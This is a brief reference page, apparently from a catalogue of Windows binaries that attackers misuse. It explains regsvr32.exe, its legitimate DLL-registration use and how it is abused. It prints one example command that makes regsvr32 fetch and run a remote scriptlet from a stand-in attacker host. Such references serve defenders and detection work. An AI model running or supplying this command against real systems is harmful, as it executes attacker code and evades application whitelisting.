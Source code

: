 # regsvr32.exe
## What is it?
*A command-line tool used to register and unregister DLLs.*

## Legitimate Use
- *Registers COM DLLs for software components.*

## How to Abuse it
- *Attackers can use it to execute remote payloads by registering a malicious DLL.*

## Example Attacks
```
regsvr32.exe /s /n /u /i:http://attacker.com/malicious.sct scrobj.dll
```
